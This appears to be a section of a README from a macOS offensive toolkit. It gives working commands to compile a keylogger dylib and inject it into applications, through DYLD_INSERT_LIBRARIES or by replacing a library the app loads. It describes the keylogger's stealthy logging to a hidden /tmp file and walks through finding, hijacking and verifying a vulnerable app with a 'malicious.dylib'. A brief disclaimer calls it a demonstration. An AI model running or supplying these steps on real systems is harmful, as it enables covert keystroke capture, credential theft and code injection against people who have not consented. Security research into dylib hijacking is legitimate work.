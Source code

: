 ### 7. Advanced Dylib Keylogger Template
`templates/keylogger_dylib.c` demonstrates how an attacker might use dylib injection to implement a keylogger.

**Compilation:**
```bash
gcc -dynamiclib -framework Cocoa -framework Carbon templates/keylogger_dylib.c -o keylogger.dylib
```

**Injection:**
```bash
# Using environment variables (if not restricted):
DYLD_INSERT_LIBRARIES=./keylogger.dylib /Applications/Example.app/Contents/MacOS/Example

# Or via dylib hijacking (replace a library the app loads):
cp keylogger.dylib /path/to/hijacked/library.dylib
```

**Expected Behavior:**
- No visible output to the console (stealthy operation)
- Creates a log file at `/tmp/.keylog.txt`
- Logs all keystrokes while the application has focus
- Entries in system log viewable with: `sudo log stream | grep "Keylogger"`

**Analyzing the results:**
1. Check the log file: `cat /tmp/.keylog.txt`
2. Monitor system logs: `sudo log stream | grep "Keylogger"`
3. The keylogger rotates logs when they exceed 5MB
4. Backup logs are stored at `/tmp/.keylog.txt.<timestamp>`

> **IMPORTANT**: This template is provided ONLY to demonstrate the risks of dylib hijacking. Do not use it to capture keystrokes without explicit permission.

## Advanced Usage Scenarios

### Scenario 1: Finding and Exploiting a Weak Dylib Reference

**Step 1: Identify a vulnerable application**
```bash
./tools/dylib_finder.sh /Applications
```

**Step 2: Verify application restrictions**
```bash
./amfi_checker /Applications/VulnerableApp.app/Contents/MacOS/VulnerableApp
```

**Step 3: Generate and deploy a hijacking dylib**
```bash
./tools/auto_hijack.sh /Applications/VulnerableApp.app/Contents/MacOS/VulnerableApp \
  "/usr/lib/missing.dylib" ./malicious.dylib 1
```

**Step 4: Launch the application and verify the hijack**
```bash
/Applications/VulnerableApp.app/Contents/MacOS/VulnerableApp
sudo log stream | grep "hijack"
```
